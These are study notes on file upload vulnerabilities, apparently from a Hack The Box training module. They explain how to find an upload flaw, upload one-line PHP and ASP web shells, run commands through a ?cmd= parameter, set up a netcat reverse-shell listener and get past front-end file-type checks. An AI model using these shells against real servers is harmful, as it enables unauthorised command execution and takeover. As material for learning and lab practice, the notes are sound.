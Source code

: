 # File Upload Attacks
- The worst possible kind of file upload vulnerability is an unauthenticated arbitrary file upload vulnerability.
- a file upload vulnerability is not only caused by writing insecure functions but is also often caused by the use of outdated libraries that may be vulnerable to these attacks
- If we click on a form to select a file, the file selector dialog does not specify any file type, as it says `All Files` for the file type, which may also suggest that no type of restrictions or limitations are specified for the web application on the FRONT END, there may be some on the back end
-  A web shell has to be written in the same programming language that runs the web server, as it runs platform-specific functions and commands to execute system commands on the back-end server, making web shells non-cross-platform scripts. So, the first step would be to identify what language runs the web application.
-  One easy method to determine what language runs the web application is to visit the `/index.ext` page, where we would swap out `ext` with various common web extensions, like `php`, `asp`, `aspx`, among others, to see whether any of them exist.
-  Once you have identified the web framework running the web application and its programming language, test whether we can upload a file with the same extension.
-  test.php --> `<?php echo "Hello HTB";?>`
-  If we can then download the test.php and it prints the string, we have executed PHP code on the back-end server
-  In PHP, use `system()` to execute commands e.g this is a simple webshell in pho - `<?php system($_REQUEST['cmd']); ?>`
  - Save as a .php and upload to get a web shell in the URL. We can execute system commands with the ?cmd= GET parameter (e.g. ?cmd=id), as follows: `http://SERVER_IP:PORT/uploads/shell.php?cmd=id`
- For .NET Web apps we can use the eval() function: `<% eval request('cmd') %> `
-  [SecLists Webshells](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells)
-  We can download any of these web shells for the language of our web application, then upload it through the vulnerable upload feature, and visit the uploaded file to interact with the web shell.
-  If we are using this custom web shell in a browser, it may be best to use source-view by clicking [CTRL+U], as the source-view shows the command output as it would be shown in the terminal, without any HTML rendering that may affect how the output is formatted.
- [phpbash](https://github.com/Arrexel/phpbash)
- It must be noted that in certain cases, web shells may not work. This may be due to the web server preventing the use of some functions utilized by the web shell (e.g. system()), or due to a Web Application Firewall, among other reasons. 
-  [php reverse shell](https://github.com/pentestmonkey/php-reverse-shell)
NetCat listener: `nc -lvnp OUR_PORT` (where OUR_PORT is any free port)
- While reverse shells are always preferred over web shells, as they provide the most interactive method for controlling the compromised server, they may not always work, and we may have to rely on web shells instead.
- Webshell is CLI in browser, where reverse shell is in terminal.

Upload Exploitation Commands - Get Webshell
- Make PHP file `<?php system($_REQUEST['cmd']); ?>`
- Then add `?cmd=cat /flag.txt` to the end of the URL to get flag

Any code that runs on the client-side is under our control. While the web server is responsible for sending the front-end code, the rendering and execution of the front-end code happen within our browser. If the web application does not apply any of these validations on the back-end, we should be able to upload any file type.

To bypass these protections, we can either modify the upload request to the back-end server, or we can manipulate the front-end code to disable these type validations.

- We may also modify the Content-Type of the uploaded file, though this should not play an important role at this stage, so we'll keep it unmodified.
- Reminder: if you upload with nothing in the network tab then it's all happening front end
